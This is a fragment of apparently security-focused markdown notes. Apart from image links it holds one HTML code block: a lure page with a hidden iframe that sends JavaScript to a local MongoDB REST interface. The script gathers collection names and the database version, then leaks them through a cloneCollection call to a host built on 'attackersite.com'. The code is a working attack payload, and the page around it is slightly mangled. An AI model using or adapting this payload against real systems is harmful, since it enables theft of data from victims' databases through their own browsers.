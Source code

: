   ```
![image-20210223163141770](images/image-20210223163141770.png)





* ![image-20210223163253254](images/image-20210223163253254.png)

* ![image-20210223163311745](images/image-20210223163311745.png)

* ![image-20210223163328438](images/image-20210223163328438.png)

* ![image-20210223163417551](images/image-20210223163417551.png)

* ```
  <html>
  Remote host collection cloning
  <head>
  from the specified host.
  <title>Tempting Title</title>
  </head>
  <body>
  <textarea></textarea>
  <iframe src =
  'http://127.0.0.1:28017/test/$cmd/?filter_eval=ret="collections_";db.getCollectionNames().forEach(function(x){ret=ret%2bx%2b"."});{db.runCommand({cloneC
  ollection:"",from:ret%2b"version_."%2bdb.version()%2b".attackersite.com:27017",query:{}})}&limit=1' style = "visibility: hidden"></iframe>
  </body>
  </html>
  ```





![image-20210223163454646](images/image-20210223163454646.png)

